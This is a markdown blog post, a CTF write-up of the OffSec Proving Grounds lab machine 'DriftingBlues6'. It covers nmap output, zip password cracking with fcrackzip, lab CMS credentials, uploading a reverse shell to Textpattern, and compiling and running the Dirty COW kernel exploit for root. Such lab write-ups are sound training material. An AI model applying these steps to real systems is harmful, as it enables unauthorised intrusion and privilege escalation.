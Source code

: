 ```yaml
---
title: "Proving grounds Play: DriftingBlues6"
layout: post
date: 2023-09-10 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
- Dirtyc0w
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/web.png)

## Fuzzing for files

/robots.txt

**Robots File**

```text
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

### Login

http://192.168.151.219/textpattern/textpattern/

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/login.png)

Zip file found at `http://192.168.151.219/spammer.zip`. File is password protected and which can be easliy cracked using `fcrackzip` tool.

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```

Extracted password: `myspace4`

Extracted `creds.txt` has login credentials for the CMS application.

```text
mayer:lionheart
```

Login to the application and upload reverse shell.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/upload.png)

Checked the document root configuration and triggered the reverse shell file.

**Initial foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/shell.png)

## Privilege Escalation

Check the kernel version to escalate privileges.

```sh
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

Linux kernel <3.2.0-4-amd64 is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

Download the exploit into the attacking machine and compile the code as mentioned in the exploit.

Run the exploit as follow:

```sh
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password #password is the password for the user firefart created by the exploit
```

Switch user to `firefart` and use the password `password`.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/root.png)

**Root shell obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).